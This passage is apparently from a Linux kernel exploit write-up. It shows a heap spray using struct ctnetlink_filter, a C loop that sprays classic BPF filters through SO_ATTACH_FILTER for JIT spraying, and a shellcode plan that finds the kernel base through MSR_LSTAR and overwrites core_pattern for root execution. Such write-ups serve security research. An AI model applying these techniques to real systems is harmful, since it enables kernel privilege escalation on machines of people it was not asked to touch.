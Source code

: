 #### For Mitigation instance
Because CONFIG_KMALLOC_SPLIT_VARSIZE is enable, we need to find a struct we can spray in kmalloc-128 fixed cache. We found out `struct ctnetlink_filter` is in the right cache. We can spray it and put payload. 

```C
static struct ctnetlink_filter *
ctnetlink_alloc_filter(const struct nlattr * const cda[], u8 family)
{
	struct ctnetlink_filter *filter;
	int err;
...

	filter = kzalloc(sizeof(*filter), GFP_KERNEL);
...
	err = ctnetlink_parse_zone(cda[CTA_ZONE], &filter->zone);
	if (err < 0)
		goto err_filter;

	err = ctnetlink_parse_filter(cda[CTA_FILTER], filter);
	if (err < 0)

```

### KASLR Bypass
#### Spray eBPF programs
Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 
